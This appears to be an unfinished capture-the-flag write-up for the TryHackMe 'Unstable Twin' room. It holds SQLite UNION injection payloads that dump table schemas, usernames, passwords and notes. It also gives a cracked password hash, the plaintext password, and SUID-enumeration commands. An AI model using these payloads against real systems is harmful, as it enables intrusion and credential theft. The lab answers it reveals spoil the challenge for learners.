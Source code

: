***STILL N THE WORKS!***

Room: [Unstable Twin](https://tryhackme.com/room/unstabletwin)

Difficulty: Medium

Overview:



-------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we will start off our target enumeration by doing "Nmap" scan:

nmap -sV -sC -A -p- 10.10.121.127 -oN nmap.txt -T4

10.10.121.127 - room ip address

![nmap](https://user-images.githubusercontent.com/76821053/119569292-74feab80-bda6-11eb-94d8-abcdc12f2fa0.png)

There are two ports open:

22    →  OpenSSH 8.0

53    →  http server nginx 1.14.1

Lets check for hidden directories with a "Gobuster" scan:

![gobuster](https://user-images.githubusercontent.com/76821053/119570948-a8dad080-bda8-11eb-9959-bbf3511f6684.png)

The website doesn't have anything..

![emptyweb](https://user-images.githubusercontent.com/76821053/119571098-d9bb0580-bda8-11eb-8dfe-9c5d55e7122c.png)

It is empty, besides the /info directory i found with gobuster:

![webinfo](https://user-images.githubusercontent.com/76821053/119571268-0d962b00-bda9-11eb-9135-8e63697dd282.png)

Using "curl" we will try to get more information from the http headers:

![curlxgetcensored](https://user-images.githubusercontent.com/76821053/120239125-8a1b8480-c255-11eb-999d-10672b662826.png)

Found the build version number for Vincent server.

Since there was a json file in the directory i did a GET request with option -H to accept application/json:

![jsonfilecurl](https://user-images.githubusercontent.com/76821053/120120298-3432d800-c194-11eb-9f09-3058d585b789.png)

Found a new build number and a new server name.

Now the room hinted that the server is vulnerable to sql injection, we need to find a way point to exploit it.

The server talks about “login API” so we'll try to see if there is anykind of vulnerability there:

![logincurlapi](https://user-images.githubusercontent.com/76821053/120239642-9ce28900-c256-11eb-8eeb-361c406f31c8.png)

We now know that /api/login can be reached and that if we ran the command 2 times it gives us different ouputs. Meaning that there is 2 servers running, probably they read from diferent builds.

To start testing for vulnerabilities we can use a simple python script using a UNION sql injection. 

Github [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)  source:

![sqlunion](https://user-images.githubusercontent.com/76821053/120239998-707b3c80-c257-11eb-84ba-f016df12bf3d.png)

Script:

![pythonscript](https://user-images.githubusercontent.com/76821053/120240176-d7005a80-c257-11eb-8b9f-371341528f30.png)


We can start editing the script doing:

1' UNION SELECT 1--+ '"
1' UNION SELECT 1,2--+ '"
1' UNION SELECT 1,2,3--+ '"
1' UNION SELECT 1,2,3,4--+ '"

Till we got some kind of response from the server we keep adding numbers.. even dough the server was not ouputing errors.

I kept running the script and got a response from the database:

![execpython](https://user-images.githubusercontent.com/76821053/120240529-aec52b80-c258-11eb-97e1-024ccba1db80.png)

Remember we have to run the script twice, because there's two servers.

From the result of the scipt above we can see that the server has 2 tables. Now we need to find their names.

![sqlitepayloadall](https://user-images.githubusercontent.com/76821053/120242534-fa79d400-c25c-11eb-9a76-00d71bacf4f6.png)


To display the names of the tables i used the Integer/string based - Extract table name from PayloadAllTheThings.

payload = ["1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '"]

When combining the new string injection we needed to had number 1, like so:

original: 

SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

Modified:

SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

Since we using a UNION based injection we can merged the strings like so:

1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '

We can also create a for loop so we don't have to do the request two times by reruning the script . 

![loopscript](https://user-images.githubusercontent.com/76821053/120242093-fbf6cc80-c25b-11eb-9ae6-4308906dd1f1.png)

![execloop](https://user-images.githubusercontent.com/76821053/120242201-38c2c380-c25c-11eb-8747-22895475d741.png)

Now to read the contents of the tables we will again modify the script and to be able to read the columns:

![readcontentoftables](https://user-images.githubusercontent.com/76821053/120242376-a373ff00-c25c-11eb-9743-a6932e7552d8.png)



I modified the string like so:

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--+ '

Added the 1, and substitute the ‘table_name’ for the users which was the 1 table name






With this information i can now reach its contents.

To list users and passwords:

UNION SELECT username, password FROM users

then merged in the script:

1' UNION SELECT username, password FROM users--+








Now the same process to read the contents of "notes":

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'--+





To extract information:

string:

SELECT notes FROM notes

merged:

1' UNION SELECT 1, notes FROM notes--+





Found a password:

eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

I used hash-identifier:



I used john the ripper to decrypt the hash:



i could also use crackstation.net to do this:



Password: experiment

Now that i have a password i will use ssh to connect to the target machine.

I assume that the user that has this password is mary_ann, because when i was enumerating the server mary_ann didn't had a colour but instead a ..continue..



I ran linpeas, did manual enumeration and only found a clue:



the content of server_notes.txt:



The api must have more information hidden so i used curl to try and download the images hinted on the message:

curl -v http://unstabletwin.thm/get_image?name=vincent --output vincent.jpg 












I did this command for every user and downloaded all the files in .jpg format.

example images:



Since they were all images i used steghide to see if there was any hidden content and i was right:



I read the contents of each extracted files:



There was a tip about arranging the children by the colours of the rainbow.



So i merged a big string from contents of each extracted file in rainbow colour order from red to green:

1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1

I tried many different decoders till i find the right one at https://gchq.github.io/CyberChef/:



The string was base62.

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

